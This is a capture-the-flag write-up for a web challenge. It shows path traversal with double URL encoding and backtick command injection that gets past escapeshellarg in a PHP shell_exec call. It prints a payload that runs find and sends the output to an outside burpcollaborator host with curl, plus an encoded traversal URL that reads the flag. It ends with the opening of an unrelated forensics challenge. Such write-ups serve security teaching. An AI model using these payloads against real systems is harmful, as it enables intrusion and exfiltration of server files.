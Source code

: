 Then I tried the `/download/` path with `../composer.json` double url encoded. It worked and I got output.

I then looked at `../routes/web.php`, then `../app/Http/Controllers/HomeController.php` and saw the `shell_exec` program for the `POST /auto-logout` route.

```php
$cmd = 'rm "'.storage_path().'/framework/sessions/'.escapeshellarg($request->logut_token).'"';
```

`escapeshellarg` only escapes single quotes and wraps single quotes around. So using back tick I was able to run bash.

When attempting to exploit this route, be sure to have the right cookies, and the right `_token`. You can get those from the bottom of any page after logging in

```js
$.ajax({
    type: "POST",
    url: "http://online-album.dctfq19.def.camp/auto-logout",
    success: function(result) {
        window.location.replace("http://online-album.dctfq19.def.camp");
    },
    data: {
        "_token": "ErOQFom5NVIh8WurlJ9sEoL5PnQvJdePLQ9jO5Z1",
        "logut_token": "ZgNCelt4eHRVgC3UZSjMHE7rcgZSkNmxCtVGU80m",
    }
});
```

I exfiltrated with curl to my burp collaborator. And I used `sleep 200` so that the php will timeout before the logout kicks in, so I can reuse the request without loging in again.

My final payload posted was. Be sure to have valid logged in cookies and valid csrf token when attempting this.

```
_token=VALID_TOKEN_HERE&logut_token=`find+/var/www/html+|+curl+ddumi7lzrmvbb2eelyq2btme45aoyk.burpcollaborator.net+--data+@-+|+sleep+200`
```

You can see I used `find /var/www/html`, exfiltrated the content to burp, noticed `../.flag/.asdpifsudyg8husijdaisonfudbigfhsdijispacdnvsubfhd`, used the following payload to get flag. You can use [https://requestbin.com/](https://requestbin.com/) instead of burp collab.

```
https://online-album.dctfq19.def.camp/download/%252e%252e%252f%252e%2566%256c%2561%2567%252f%252e%2561%2573%2564%2570%2569%2566%2573%2575%2564%2579%2567%2538%2568%2575%2573%2569%256a%2564%2561%2569%2573%256f%256e%2566%2575%2564%2562%2569%2567%2566%2568%2573%2564%2569%256a%2569%2573%2570%2561%2563%2564%256e%2576%2573%2575%2562%2566%2568%2564
```


radio-station (316p): Forensics
==============

```
We managed to intercept all the traffic within a pirate radio station. Could you help us what is it going on? I think you should be an artist to understand them...
Flag format: DCTF + 19 alphanumeric characters + DCTF
Author: Lucian

[Attachment]
```
